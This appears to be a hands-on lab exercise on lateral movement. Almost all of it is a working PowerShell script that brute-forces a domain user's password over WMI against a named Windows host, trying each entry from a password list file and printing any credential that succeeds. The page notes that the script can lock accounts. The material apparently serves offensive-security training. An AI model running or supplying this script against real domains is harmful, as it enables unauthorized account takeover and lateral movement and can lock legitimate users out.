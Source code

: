 ## Hands On 6
### Lateral Movement
#### Use WMI to brute force password for a given user in the domain
Note: This solution does not account for password policies.  It has the potential to lock a user's account

```
$password_list = Get-Content "C:\Users\admin\Documents\password_list.txt"
$user = "home.local\user3"
foreach ($password in $password_list) {

  $secure_string = ConvertTo-SecureString -string $password -AsPlainText -Force
  $Credential = New-Object -TypeName System.Management.Automation.PSCredential -Argument $user,$secure_string

  try{
    Get-WmiObject -class win32_computerSystem -Computer Win7x64 -Credential $Credential
    Write-output "$user : $password"
  } catch { continue }
}
```
